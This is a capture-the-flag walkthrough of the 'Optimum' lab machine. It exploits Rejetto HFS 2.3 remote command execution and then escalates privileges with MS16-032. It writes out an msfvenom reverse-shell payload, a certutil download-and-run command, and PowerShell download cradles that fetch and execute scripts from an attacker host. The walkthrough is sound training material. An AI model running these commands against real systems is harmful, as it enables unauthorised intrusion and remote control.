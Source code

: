 # Optimum (TJ Null/easy)  

## Nmap  

Ports 0-15000.  

```
80/tcp open  http    syn-ack HttpFileServer httpd 2.3
```  

Server header.  

`http-server-header: HFS 2.3`  

## Http 80  

Using searchsploit, a vulnerable version was found with a python exploit.  

`Rejetto HttpFileServer 2.3.x - Remote Command Execution`  

Creating a reverse shell.  

`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.85 LPORT=4444 -f exe > shell.exe`  

Trying to retrieve the shell using the exploit and certutil did not work, a full path to certutil.exe was needed.  

`python exploit.py 10.129.72.112 80 "C:\Windows\System32\certutil.exe -urlcache -f http://10.10.14.85:8000/shell.exe c:\Windows\Temp\shell.exe"`  

Executing reverse shell.  

`python exploit.py 10.129.72.112 80 "c:\Windows\Temp\shell.exe"`  

Returning a shell.  

```
whoami
optimum\kostas
```  

## Priv Esc  

Using searchsploit, this OS is vulnerable to MS016-032.  

I edited the empire Invoke-MS16032.ps1 script with the following line, which just calls the function within the script with a argument that downloads and executes a rev shell.  

`Invoke-MS16-032 -Cmd "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.87:8000/powertcp.ps1')"`  

Also, this box is 64 bit and not 32, which matters greatly on kernel exploits. Each powershell address I changed System32 to SysWOW64 for powershell 64 bit.  

Calling the file in the rev shell.  

`C:\Windows\sysnative\WindowsPowershell\v1.0\powershell.exe -c "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.87:8000/Invoke-MS16032.ps1')"`  

To gain root shell. ***Important*** I tried to do the above command using the word 'powershell' and it did not work. It needed the full path 'C:\Windows\sysnative\WindowsPowershell\v1.0\powershell.exe' to return a shell.
